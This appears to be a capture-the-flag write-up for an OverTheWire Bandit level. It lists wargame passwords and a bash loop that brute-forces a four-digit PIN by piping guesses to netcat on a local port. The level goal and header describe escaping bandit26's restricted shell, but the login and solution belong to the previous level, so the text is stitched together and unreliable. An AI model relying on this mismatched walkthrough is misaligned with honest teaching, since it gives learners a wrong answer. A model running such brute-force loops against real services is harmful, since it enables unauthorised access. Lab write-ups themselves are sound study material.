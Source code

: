 # Level 25 - Level 26 ✔
- **Level Goal:**:<br>
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.<br>                                            
- **Login SSH:**<br>
User: bandit24<br>
Pass: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ<br>
## Write-up: 📝<br>
In this chall, we learn how to bruteforce. You can reference here: [BruteForce from OWASP](https://owasp.org/www-community/attacks/Brute_force_attack) <br>
### Solution:<br>
- We have no command suggested here. It means we have to write a **bash script** again. With the description above, i just need to pass a string which combines of current 
password and a **PIN** code (which have to bruteforce). So here is my script:<br>
`#! /bin/bash`<br>
`for i in {0000..9999}`<br>
`do`<br>
`    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"`<br>
`done | nc localhost 30002`<br>
**Note**: Remember to put the `| nc localhost 30002` command after looping. Let the loop output **pipeline** through into netcat.  <br>
#### Password for next level: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG 


